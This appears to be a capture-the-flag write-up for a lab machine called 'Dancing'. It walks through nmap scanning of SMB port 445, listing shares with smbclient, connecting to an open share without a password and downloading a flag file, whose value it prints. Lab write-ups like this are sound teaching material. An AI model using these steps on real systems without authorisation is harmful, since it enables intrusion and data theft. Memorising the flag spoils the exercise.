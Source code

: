 # Dancing

## Task 1: What does the 3-letter acronym SMB stand for?

Server Message Block

The Server Message Block (SMB) protocol is a network file sharing protocol that allows applications on a computer to read and write to files and to request services from server programs in a computer network.

[references](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831795(v=ws.11))

## Task 2: What port does SMB use to operate at?

445

## Task 3: What is the service name for port 445 that came up in our Nmap scan?

answer: microsoft-ds

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 445 10.129.46.159
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 04:45 EDT
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.129.46.159
Host is up (0.25s latency).

PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.11 seconds
```

## Task 4: What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?

answer: -L

man:

```text
 -L|--list
This option allows you to look at what services are available on a server. You use it as smbclient -L host
and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS
host names or if you are trying to reach a host on another network.
```

## Task 5: How many shares are there on Dancing?

answer: 4

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L 10.129.46.159
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.46.159 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

## Task 6: What is the name of the share we are able to access in the end with a blank password?

answer: workshares

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ smbclient '\\10.129.85.200\WorkShares' -N
Try "help" to get a list of possible commands.
smb: \>
```

`-N` flag means no password

## Task 7: What is the command we can use within the SMB shell to download the files we find?

answer: get

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ smbclient '\\10.129.85.200\WorkShares' -N
Try "help" to get a list of possible commands.
smb: \> help
?              allinfo        altname        archive        backup
blocksize      cancel         case_sensitive cd             chmod
chown          close          del            deltree        dir
du             echo           exit        -->get<--         getfacl
geteas         hardlink       help           history        iosize
lcd            link           lock           lowercase      ls
l              mask           md             mget           mkdir
more           mput           newer          notify         open
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir
posix_unlink   posix_whoami   print          prompt         put
pwd            q              queue          quit           readlink
rd             recurse        reget          rename         reput
rm             rmdir          showacls       setea          setmode
scopy          stat           symlink        tar            tarmode
timeout        translate      unlock         volume         vuid
wdel           logon          listconnect    showconnect    tcon
tdis           tid            utimes         logoff         ..
!
smb: \>
```

## Task 8: Submit root flag

flag: 035db21c881520061c53e0536e44f815

```bash
smb: \> ls
  .                                   D        0  Mon Mar 29 15:22:01 2021
  ..                                  D        0  Mon Mar 29 15:22:01 2021
  Amy.J                               D        0  Mon Mar 29 16:08:24 2021
  James.P                             D        0  Thu Jun  3 15:38:03 2021

                5114111 blocks of size 4096. 1728902 blocks available
smb: \> ls Amy.J\
  .                                   D        0  Mon Mar 29 16:08:24 2021
  ..                                  D        0  Mon Mar 29 16:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 18:00:37 2021

                5114111 blocks of size 4096. 1728902 blocks available
smb: \> ls James.P\
  .                                   D        0  Thu Jun  3 15:38:03 2021
  ..                                  D        0  Thu Jun  3 15:38:03 2021
  flag.txt                            A       32  Mon Mar 29 16:26:57 2021

                5114111 blocks of size 4096. 1728902 blocks available
smb: \> get James.P\flag.txt
getting file \James.P\flag.txt of size 32 as James.P\flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> exit

┌──(realkali㉿SeaDragnoL)-[~]
└─$ cat flag.txt
035db21c881520061c53e0536e44f815
```

## References

- <https://github.com/irgoncalves/smbclient_cheatsheet>
